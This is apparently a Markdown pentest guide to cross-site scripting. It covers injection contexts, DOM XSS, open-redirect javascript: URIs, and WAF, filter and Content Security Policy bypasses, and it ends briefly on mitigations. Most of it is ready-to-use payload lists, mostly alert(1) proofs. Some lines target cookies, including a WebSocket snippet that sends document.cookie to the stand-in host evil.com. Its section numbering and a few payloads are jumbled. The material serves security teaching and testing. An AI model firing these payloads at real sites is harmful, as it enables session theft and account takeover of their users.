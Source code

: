 # Comprehensive Guide on Cross-Site Scripting (XSS) and Its Bypasses
Cross-Site Scripting (XSS) is a widespread vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. This guide covers the types of XSS, methodologies for detection and exploitation, contexts of injection, and advanced techniques for bypassing protections.

1. Introduction to XSS
XSS attacks enable attackers to inject malicious scripts into web pages. These scripts can execute in the context of a user's browser, allowing attackers to steal information, hijack sessions, or perform actions on behalf of the user.

1.1 Types of XSS
Stored XSS: The malicious script is permanently stored on the target server, such as in a database or comment field.
Reflected XSS: The malicious script is reflected off a web server, typically via a URL query parameter.
DOM-Based XSS: The vulnerability exists in the client-side code rather than the server-side code, and the attack payload is executed as a result of modifying the DOM environment.

2. Methodology for Detecting XSS
2.1 Identify Injection Points
   
Check if any value you control (parameters, path, headers, cookies) is reflected in the HTML or used by JavaScript code.

# Determine Reflection Context

Raw HTML: Can you create new HTML tags or use attributes/events that support JavaScript?


Inside HTML Tag: Can you exit to raw HTML or create events/attributes to execute JavaScript?


Inside JavaScript Code: Can you escape the <script> tag or string context to execute arbitrary JavaScript?


4. Contexts for XSS Injection
Raw HTML Context
When your input is reflected in the raw HTML of a page, you can exploit it by injecting HTML tags that execute JavaScript. Common tags include:
```
<img src=x onerror=alert(1)>
<iframe src="javascript:alert(1)">
<svg onload=alert(1)>
```
3.2 Inside HTML Tag Attributes
If your input is reflected within an attribute value, consider the following approaches:

Escape Attribute and Tag: 
```
"><img src=x onerror=alert(1)>
```

Event Handlers: If escaping the tag is not possible, use attributes like onfocus, onclick: " autofocus onfocus=alert(1) x="
JavaScript Protocol: If within href, use javascript:: href="javascript:alert(1)"
3.3 Inside JavaScript Code
If the input is reflected within JavaScript code, you need to break out of the string or the <script> tag to execute arbitrary code:

Escape String: "; alert(1); "
Template Literals: If input is in a template literal: `${alert(1)}`
4. Advanced Techniques and Bypasses
4.1 Content Security Policy (CSP) Bypass
CSP is a security measure that helps prevent XSS by specifying trusted content sources. However, it can be bypassed if not correctly configured.


4.2 Polyglot XSS
Polyglot payloads can function in multiple contexts (HTML, JS, CSS) to bypass input filters.

4.2.1 Example Polyglot Payload
```
"><svg onload=alert(1)><script>alert(1)</script>
4.3 Dangling Markup - HTML Scriptless Injection
```
If you cannot create executing HTML tags, you might abuse dangling markup, which involves placing incomplete tags that break the current HTML context.

4.3.1 Example Dangling Markup
```
<a href="/">Click here</a><b 
<script>alert(1)</script>
```
4.4 JSON-based XSS
When web applications parse JSON data and directly insert it into the DOM without proper sanitization, it can lead to XSS.

4.4.1 Example JSON-based XSS
```
{"name": "<img src=x onerror=alert(1)> "}
```
4.5 Bypassing Filters
Using techniques like UTF-7 encoding, breaking out of existing tags, or leveraging uncommon payloads.

Example UTF-7 Encoding
```
<iframe src="data:text/html;charset=utf-7,%2BADw-script%2BAD4-alert('XSS')%2BADw-/script%2BAD4-"></iframe>
```
4.6 Using HTML Entities
Encoding the payload using HTML entities to bypass filters that block certain characters.

4.6.1 Example HTML Entities
```
<img src=x onerror=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
```
4.7 Null Byte Injection
Using null bytes to bypass filters or terminate strings early.

4.7.1 Example Null Byte Injection
```
<img src="x" onerror="alert(1)";%00" src="y">
<img src="x" onerror="alert(1)%00" src="y">
<svg onload="alert(1)%00">
<iframe src="javascript:alert(1)%00"></iframe>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==%00"></iframe>
<a href="javascript:alert(1)%00">Click me</a>
<form action="javascript:alert(1)%00" method="post"><input type="submit"></form>
<img src="x" onerror="alert(1)";%00" src="y">
```
4.8 Case Variation
Altering the case of HTML tags and attributes to bypass case-sensitive filters.

Obfuscation Techniques
```
// Obfuscation with white spaces
<scr\0ipt>alert(1)</scr\0ipt>

// Breaking up keywords
<scri/*foo*/pt>alert(1)</scri/*foo*/pt>

// Using concatenation
<scr\+ipt>alert(1)</scr\+ipt>
```

Unexpected Input Variations
```
// Inline event handlers
<svg><a href="javascript:alert(1)">click</a></svg>

// Injecting into attributes
<input type="text" value="``><svg onload=alert(1)>">
```

4.8.1 Example Case Variation
```
<Svg OnloAd=alert(1)>
```
4.9 Using Backticks in JavaScript
Bypassing filters by using backticks in JavaScript for template literals.

4.9.1 Example Using Backticks
```
<script>let a = `alert(1)`</script>
```
4.10 Chained XSS
Combining multiple injection points to achieve a successful XSS attack.

4.10.1 Example Chained XSS
Injecting part of the payload in one input and another part in a different input to form a complete attack.

5. Exploiting DOM XSS
DOM XSS occurs when a script on the page modifies the DOM based on user input, potentially leading to the execution of malicious scripts.

5.1 Finding and Exploiting DOM XSS
Identify Sinks: Look for functions or methods (e.g., innerHTML, document.write) that render user-controlled input.
Control Flow: Understand how user input flows through the application to these sinks.
Payload Construction: Craft payloads that exploit these sinks.
5.1.1 Example DOM XSS Payload
```
<input oninput="document.getElementById('output').innerHTML = this.value">
<input value="<img src=x onerror=alert(1)>">
```
6. Debugging Client-Side JavaScript
When working with complex XSS payloads, debugging client-side JavaScript can help understand how input is processed and reflected.

6.1 Tools for Debugging
Browser Developer Tools: Use the console, breakpoints, and step through the JavaScript code to understand the application flow and find XSS injection points.
7. Mitigations and Best Practices
7.1 Input Validation and Sanitization
Ensure all user inputs are validated and sanitized before being processed or rendered.

Bypassing Filters with HTML Entities
```
<svg onload=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
<img src=x onerror=& #x61;&#x6c;&#x65;&#x72;&#x74;(1)>
```

Bypassing Filters with Null Bytes
Null byte injection can terminate strings early or bypass certain filters by injecting null characters.

```
<img src="x" onerror="alert(1)";%00" src="y">
```

# Open Redirect Exploits

Basic Open Redirect to XSS

// Basic payload, JavaScript code is executed after "javascript:"
javascript:alert(1)

Bypassing "javascript" Word Filter with CRLF
```
java%0d%0ascript%0d%0a:alert(0)
```
Abusing Bad Subdomain Filter
```
javascript://sub.domain.com/%0Aalert(1)
```

JavaScript with "://"
```
javascript://%250Aalert(1)
```

```
// Variation with query
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0
```
Other Variations
```
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//
```
Open Redirect by Uploading SVG Files
Using SVG files to perform open redirects can be effective, especially when the application allows file uploads.
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
```

Client-Side Prototype Pollution to XSS
Prototype pollution in JavaScript occurs when an attacker can modify the properties of Object.prototype. This can lead to XSS if these properties are used in sensitive operations.

// Prototype pollution payload
Object.prototype.polluted = 'polluted';
If the application uses a polluted object property in a dangerous way, this can lead to XSS:

```
var obj = {};
alert(obj.polluted); // Outputs: polluted
```

# How to Bypass Internal Filtering for XSS
Bypassing internal filtering mechanisms such as Web Application Firewalls (WAFs) and input sanitization requires a deep understanding of how these filters operate and the techniques that can be used to circumvent them. This guide provides an in-depth look at various methods to bypass internal filtering mechanisms for XSS attacks.

Internal filters and WAFs are designed to prevent malicious inputs by inspecting, sanitizing, or blocking suspicious content. Common filtering techniques include:

Blacklisting: Blocking known malicious patterns or keywords.
Whitelisting: Allowing only specific safe inputs.
Encoding: Converting special characters to their HTML entities.
Normalization: Simplifying input to a consistent form for easier inspection.

Techniques for Bypassing Filters
2.1 Encoding and Decoding
Using various encoding methods can help bypass filters that don't decode inputs before inspection.

URL Encoding
```
%3Cscript%3Ealert(1)%3C/script%3E
```
Double URL Encoding
```
%253Cscript%253Ealert(1)%253C/script%253E
```
HTML Entities
```
&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;
```
Unicode Encoding
```
\u003Cscript\u003Ealert(1)\u003C/script\u003E
```
Case Variation
Altering the case of HTML tags and attributes can bypass filters that are case-sensitive.
```
<ScRiPt>alert(1)</ScRiPt>
<Img sRc=x OnErRoR=alert(1)>
```
Comment Insertion
Inserting comments within the payload can break up patterns that the filter is looking for.
```
<scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>
```
Using Null Bytes
Null byte injection can terminate strings early or bypass certain filters.
```
<img src="x" onerror="alert(1)%00" src="y">
<svg onload="alert(1)%00">
```
Breaking Up Keywords
```
<scri/*foo*/pt>alert(1)</scri/*foo*/pt>
```
Using Concatenation
```
<scr\+ipt>alert(1)</scr\+ipt>
```
Leveraging Browser Parsing Quirks
Different browsers may interpret malformed HTML or JavaScript in ways that can be exploited.
```
<scr<script>ipt>alert(1)</scr</script>ipt>
```
Incomplete Tags
```
<svg><a href="javascript:alert(1)">click</a></svg>
```
Inserting White Spaces and Line Breaks
Using white spaces and line breaks to bypass filters.

```
<scr\0ipt>alert(1)</scr\0ipt>
<svg
onload=alert(1)>
```
Combining Techniques
Combining multiple bypass techniques to create a payload that evades detection.

```
<scr\0ipt>alert(1)</scr\0ipt>
%3Cscript%3E%61lert(1)%3C/script%3E
<scr\+ipt>alert(1)%00</scr\+ipt>
```
3. Real-World Examples
3.1 URL Encoding and Decoding
Using URL encoding to bypass filters that do not decode inputs before inspection.


Combining case variation and comment insertion to bypass case-sensitive filters.

```
<ScRiPt>alert(1)</ScRiPt>
<scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>
```
Null Byte Injection
Using null bytes to terminate strings early or bypass certain filters.

```
<img src="x" onerror="alert(1)%00" src="y">
<svg onload="alert(1)%00">
```
Obfuscation and Concatenation
Using obfuscation and concatenation to avoid detection by filters.

```
<scri/*foo*/pt>alert(1)</scri/*foo*/pt>
<scr\+ipt>alert(1)</scr\+ipt>
```


# Understanding CSP
CSP works by allowing website owners to define a whitelist of trusted sources for content such as scripts, styles, images, and more. This is done through the Content-Security-Policy HTTP header. Key directives include:

default-src: The default policy for loading content types.
script-src: Defines trusted sources for JavaScript.
style-src: Defines trusted sources for CSS.
img-src: Defines trusted sources for images.
2. Common CSP Misconfigurations
Misconfigured CSP policies are often the root cause of bypasses. Common issues include:

Allowing unsafe-inline or unsafe-eval in script-src.
Overly permissive whitelists.
Failing to cover all possible directives, leaving certain content types unprotected.

# Bypassing CSP

JSONP (JSON with Padding) allows data to be fetched from a different domain using a <script> tag. If the JSONP endpoint is not properly secured, it can be exploited to execute arbitrary JavaScript.

Overly permissive CSP headers, such as those allowing unsafe-inline, can be exploited to run inline scripts directly.
```
<script nonce="random-nonce">alert(1)</script>
```

Inline Script Allowances
When unsafe-inline is allowed, or if there is an oversight allowing inline scripts, attackers can inject their payload directly into inline scripts.

Data URIs
Data URIs can sometimes be used to bypass CSP if they are allowed in the policy.
```
<img src="data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+">
```

# Exploiting Script Gadgets
Script gadgets are existing pieces of code on a website that can be exploited to perform unintended actions. This is particularly effective if unsafe-inline or unsafe-eval is used.

Exploitation
Find an existing inline script that can be manipulated.
Inject code that modifies the behavior of the script.

Content Injection via Whitelisted CDNs
If a Content Delivery Network (CDN) is whitelisted, and the attacker can upload content to that CDN, they can inject malicious scripts.

Exploitation
Upload a malicious script to cdn.example.com.
Include the script on the target site:
```
<script src="https://cdn.example.com/malicious.js"></script>
```

Subresource Integrity (SRI) Bypass
SRI is used to ensure that resources hosted on third-party servers have not been tampered with. However, if SRI is not used properly, it can be bypassed.

Exploitation
Host a script on a trusted domain without SRI.
Include the script:
```
<script src="https://trusted.com/script.js"></script>
```
Mutation XSS
Mutation XSS exploits the way browsers handle dynamic content changes. If CSP allows unsafe-inline, attackers can inject payloads that mutate the DOM in unexpected ways.

Exploitation:
```
<div><img src=x onerror="alert(1)"></div>
<script>
document.querySelector('div').innerHTML = '<img src=x onerror="alert(1)">';
</script>
```

Using WebSockets
WebSockets can sometimes be used to exfiltrate data or execute JavaScript if allowed by CSP.

Exploitation:
```
var ws = new WebSocket("wss://evil.com/socket");
ws.onopen = function() {
  ws.send(document.cookie);
};
```

CSP Nonce Reuse
If the CSP nonce is reused or predictable, it can be exploited to run malicious scripts.

Exploitation
Predict or capture the nonce value.
Use the nonce to execute a script:

```
<script nonce="captured-nonce">alert(1)</script>
```

Example of a Secure CSP Header
Here’s an example of a secure CSP header that mitigates most XSS attacks:
```
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-random-nonce'; style-src 'self' 'nonce-random-nonce'; object-src 'none'; frame-ancestors 'none'; base-uri 'self'; form-action 'self';
```

Use Security Libraries
Utilize libraries like DOMPurify to clean HTML inputs and prevent XSS.

 Example DOMPurify Usage

var clean = DOMPurify.sanitize(dirty);
8. References
Pentest-Tools Blog on XSS Attacks
Hacktricks XSS Documentation
Hacktricks on CSP Bypass
This guide provides a comprehensive overview of XSS, various attack scenarios, contexts of injection, advanced techniques, and best practices for mitigation. Understanding these concepts is crucial for both defending against and exploiting XSS vulnerabilities in web applications.
